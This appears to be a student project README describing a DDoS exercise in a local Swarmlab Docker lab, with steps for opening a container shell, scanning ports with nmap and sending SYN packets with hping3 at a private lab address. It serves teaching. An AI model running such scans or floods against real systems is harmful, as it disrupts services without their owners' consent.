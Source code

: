 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal

    cd swarmlab-hybrid

     ./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands

        $ docker exec -it dummy_service /bin/sh

        $ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )

        $ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001

        $ sudo hping3 -S 172.22.0.2 -p 3001
